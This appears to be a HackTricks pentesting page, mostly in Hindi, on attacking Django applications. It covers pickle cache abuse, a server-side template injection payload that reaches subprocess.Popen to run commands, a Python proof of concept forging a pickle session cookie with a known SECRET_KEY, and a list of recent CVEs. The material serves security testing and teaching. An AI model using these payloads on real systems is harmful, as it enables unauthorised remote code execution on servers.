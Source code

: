 # Django

{{#include /src/banners/hacktricks-training.md}}

## Cache Manipulation to RCE
Django का डिफ़ॉल्ट कैश स्टोरेज तरीका [Python pickles](https://docs.python.org/3/library/pickle.html) है, जो [अविश्वसनीय इनपुट के अनपिकल होने](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf) पर RCE की ओर ले जा सकता है। **यदि एक हमलावर कैश में लिखने की पहुंच प्राप्त कर लेता है, तो वह इस कमजोरियों को अंतर्निहित सर्वर पर RCE में बढ़ा सकता है**।

Django कैश चार स्थानों में से एक में संग्रहीत होता है: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [memory](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [files](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16), या [database](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95)। Redis सर्वर या डेटाबेस में संग्रहीत कैश सबसे संभावित हमले के वेक्टर हैं (Redis इंजेक्शन और SQL इंजेक्शन), लेकिन एक हमलावर फ़ाइल-आधारित कैश का उपयोग करके मनमाने लिखने को RCE में बदलने में भी सक्षम हो सकता है। रखरखाव करने वालों ने इसे एक गैर-मुद्दा के रूप में चिह्नित किया है। यह ध्यान रखना महत्वपूर्ण है कि कैश फ़ाइल फ़ोल्डर, SQL तालिका का नाम, और Redis सर्वर का विवरण कार्यान्वयन के आधार पर भिन्न होगा।

यह HackerOne रिपोर्ट SQLite डेटाबेस में संग्रहीत Django कैश का शोषण करने का एक शानदार, पुनरुत्पादनीय उदाहरण प्रदान करती है: https://hackerone.com/reports/1415436

---

## Server-Side Template Injection (SSTI)
Django Template Language (DTL) **Turing-complete** है। यदि उपयोगकर्ता द्वारा प्रदान किया गया डेटा *टेम्पलेट स्ट्रिंग* के रूप में प्रस्तुत किया जाता है (उदाहरण के लिए `Template(user_input).render()` को कॉल करके या जब `|safe`/`format_html()` ऑटो-एस्केपिंग को हटा देता है), तो एक हमलावर पूर्ण SSTI → RCE प्राप्त कर सकता है।

### Detection
1. `Template()` / `Engine.from_string()` / `render_to_string()` के लिए डायनामिक कॉल की तलाश करें जो *कोई भी* असंक्रमित अनुरोध डेटा शामिल करते हैं।
2. एक समय-आधारित या अंकगणितीय पेलोड भेजें:
```django
{{7*7}}
```
यदि प्रस्तुत आउटपुट में `49` है तो इनपुट को टेम्पलेट इंजन द्वारा संकलित किया गया है।

### Primitive to RCE
Django `__import__` तक सीधी पहुंच को अवरुद्ध करता है, लेकिन Python ऑब्जेक्ट ग्राफ़ पहुंच योग्य है:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
`subprocess.Popen` का इंडेक्स खोजें (≈400–500, Python बिल्ड के आधार पर) और मनचाहे कमांड्स निष्पादित करें:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
A safer universal gadget is to iterate until `cls.__name__ == 'Popen'`.

The same gadget works for **Debug Toolbar** or **Django-CMS** template rendering features that mishandle user input.

---

## Pickle-Backed Session Cookie RCE
यदि सेटिंग `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` सक्षम है (या एक कस्टम सीरियलाइज़र जो पिक्ल को डीसिरियलाइज़ करता है), तो Django *सत्र कुकी को डिक्रिप्ट और अनपिक्ल* करता है **पहले** किसी भी व्यू कोड को कॉल करने से। इसलिए, एक मान्य साइनिंग की (डिफ़ॉल्ट रूप से प्रोजेक्ट `SECRET_KEY`) होना तत्काल रिमोट कोड निष्पादन के लिए पर्याप्त है।

### Exploit Requirements
* सर्वर `PickleSerializer` का उपयोग करता है।
* हमलावर `settings.SECRET_KEY` को जानता है / अनुमान लगा सकता है (GitHub, `.env`, त्रुटि पृष्ठों आदि के माध्यम से लीक)। 

### Proof-of-Concept
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
संबंधित कुकी भेजें, और पेलोड WSGI कार्यकर्ता की अनुमतियों के साथ चलता है।

**निवारण**: डिफ़ॉल्ट `JSONSerializer` को बनाए रखें, `SECRET_KEY` को घुमाएँ, और `SESSION_COOKIE_HTTPONLY` को कॉन्फ़िगर करें।

---

## हालिया (2023-2025) उच्च-प्रभाव वाले Django CVEs जिनकी जांच पेंटेस्टर्स को करनी चाहिए
* **CVE-2025-48432** – *अनएस्केप्ड `request.path` के माध्यम से लॉग इंजेक्शन* (4 जून 2025 को ठीक किया गया)। हमलावरों को लॉग फ़ाइलों में नई पंक्तियाँ/ANSI कोड स्मगल करने और डाउनस्ट्रीम लॉग विश्लेषण को विषाक्त करने की अनुमति देता है। पैच स्तर ≥ 4.2.22 / 5.1.10 / 5.2.2।
* **CVE-2024-42005** – *`JSONField` पर `QuerySet.values()/values_list()` में महत्वपूर्ण SQL इंजेक्शन* (CVSS 9.8)। JSON कुंजी बनाएं ताकि उद्धरण से बाहर निकल सकें और मनमाना SQL निष्पादित कर सकें। 4.2.15 / 5.0.8 में ठीक किया गया।

हमेशा `X-Frame-Options` त्रुटि पृष्ठ या `/static/admin/css/base.css` हैश के माध्यम से सटीक ढाँचा संस्करण की पहचान करें और जहाँ लागू हो, उपरोक्त का परीक्षण करें।

---

## संदर्भ
* Django सुरक्षा रिलीज़ – "Django 5.2.2, 5.1.10, 4.2.22 CVE-2025-48432 को संबोधित करते हैं" – 4 जून 2025।
* OP-Innovate: "Django SQL इंजेक्शन दोष CVE-2024-42005 को संबोधित करने के लिए सुरक्षा अपडेट जारी करता है" – 11 अगस्त 2024।

{{#include /src/banners/hacktricks-training.md}}
